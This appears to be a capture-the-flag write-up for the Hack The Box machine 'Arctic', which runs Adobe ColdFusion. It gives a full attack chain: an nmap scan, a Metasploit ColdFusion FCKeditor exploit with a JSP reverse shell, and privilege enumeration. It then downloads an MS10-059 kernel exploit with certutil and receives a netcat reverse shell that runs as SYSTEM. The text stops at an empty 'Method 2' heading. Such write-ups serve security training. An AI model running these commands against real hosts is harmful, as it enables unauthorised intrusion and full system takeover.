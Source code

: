# Arctic

<pre>nmap -p 135,8500,49154 -sV -Pn 10.10.10.11        

PORT      STATE SERVICE VERSION
135/tcp   open  msrpc   Microsoft Windows RPC
8500/tcp  open  fmtp?
49154/tcp open  msrpc   Microsoft Windows RPC</pre>

![alt text](<../Images/Arctic 1.png>)

- CFIDE directory stands for ColdFusion Integrated Development Environment
- Directory in Adobe ColdFusion installations that contains various files and resources used by ColdFusion applications

![alt text](<../Images/Arctic 2.png>)

![alt text](<../Images/Arctic 3.png>)

![alt text](<../Images/Arctic 4.png>)

## Method 1 Metasploit

<pre>exploit/windows/http/coldfusion_fckeditor

set RHOSTS

set LHOST 

set LPORT

set PAYLOAD java/jsp_shell_reverse_tcp

set HTTPCLIENTTIMEOUT 150

run

msf6 exploit(windows/http/coldfusion_fckeditor) > exploit</pre>

<pre>C:\ColdFusion8\runtime\bin>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled



C:\ColdFusion8\runtime\bin>net user
net user

User accounts for \\ARCTIC

-------------------------------------------------------------------------------
Administrator            Guest                    tolis                    
The command completed successfully.</pre>

<pre>C:\ColdFusion8\runtime\bin>net user tolis
net user tolis
User name                    tolis
Full Name                    tolis
Comment                      
User's comment               
Country code                 000 (System Default)
Account active               Yes
Account expires              Never

Password last set            22/3/2017 9:07:58   
Password expires             Never
Password changeable          22/3/2017 9:07:58   
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script                 
User profile                 
Home directory               
Last logon                   16/5/2024 2:23:36   

Logon hours allowed          All

Local Group Memberships      *Users                
Global Group memberships     *None                 
The command completed successfully.</pre>

## Windows Exploit Suggester - Privilege Escalation

- Save output from `systeminfo` into sysinfo.txt
- Update the database

<pre>./windows-exploit-suggester.py --update</pre>

<pre>./windows-exploit-suggester.py --database 2024-05-14-mssb.xls --systeminfo sysinfo.txt</pre>

<pre>[*] there are now 197 remaining vulns
[+] [E] exploitdb PoC, [M] Metasploit module, [*] missing bulletin
[+] windows version identified as 'Windows 2008 R2 64-bit'
[*] 
[M] MS13-009: Cumulative Security Update for Internet Explorer (2792100) - Critical
[M] MS13-005: Vulnerability in Windows Kernel-Mode Driver Could Allow Elevation of Privilege (2778930) - Important
[E] MS12-037: Cumulative Security Update for Internet Explorer (2699988) - Critical
[*]   http://www.exploit-db.com/exploits/35273/ -- Internet Explorer 8 - Fixed Col Span ID Full ASLR, DEP & EMET 5., PoC
[*]   http://www.exploit-db.com/exploits/34815/ -- Internet Explorer 8 - Fixed Col Span ID Full ASLR, DEP & EMET 5.0 Bypass (MS12-037), PoC
[*] 
[E] MS11-011: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (2393802) - Important
[M] MS10-073: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Elevation of Privilege (981957) - Important
[M] MS10-061: Vulnerability in Print Spooler Service Could Allow Remote Code Execution (2347290) - Critical
[E] MS10-059: Vulnerabilities in the Tracing Feature for Services Could Allow Elevation of Privilege (982799) - Important
[E] MS10-047: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (981852) - Important
[M] MS10-002: Cumulative Security Update for Internet Explorer (978207) - Critical
[M] MS09-072: Cumulative Security Update for Internet Explorer (976325) - Critical</pre>

- Use `MS10-059:Vulnerabilities in the Tracing Feature for Services Could Allow Elevation of Privilege (982799) - Important`

https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS10-059/README.md

- Transfer to target machine

<pre>python -m SimpleHTTPServer</pre>

<pre>certutil -urlcache -f http://10.10.14.8/MS10-059.exe MS10-059.exe</pre>

- Execute `MS10-059.exe` on target machine

<pre>MS10-059.exe
/Chimichurri/-->This exploit gives you a Local System shell <BR>/Chimichurri/-->Usage: Chimichurri.exe ipaddress port <BR></pre>

- Setup netcat listener on attacking machine

<pre>nc -nvlp 5555</pre>

<pre>MS10-059.exe 10.10.14.8 5555</pre>

<pre>nc -nvlp 5555
listening on [any] 5555 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.11] 49666
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\ColdFusion8\runtime\bin>whoami
whoami
nt authority\system</pre>

## Method 2 Manual Exploitation